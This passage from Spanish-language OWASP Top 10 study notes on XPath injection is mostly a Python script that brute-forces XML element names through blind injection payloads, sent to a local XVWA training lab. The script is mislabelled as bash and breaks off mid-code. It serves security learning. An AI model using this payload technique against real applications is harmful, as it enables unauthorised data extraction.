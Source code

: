 ![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 22.png)

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 23.png)

Esto se puede automatizar con un script en Python:

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = "\n"
    	
    	for child_element in range(1, 11):
    		data+="No.%d -> " % child_element
    		
    		for position in range(1, 8):
    			for character in characters:
    				post_data = {
    					'search': "1' and substring(name(/*/*[%d]),%d,1)='%s" % (child_element ,position, character),
    					'submit': ''
    				}
    
    				r = requests.post(main_url, data=post_data)
    				
    				#print(len(r.text))
    				
    				# Comparación de cantidad de caracteres en la respuesta
    				if len(r.text) != 8680 and len(r.text) != 8683 and len(r.text) != 8684:
    					#print(len(r.text))
    					data+=character
    					p2.status(data)
    					break
    					
    		data+="\n"	
    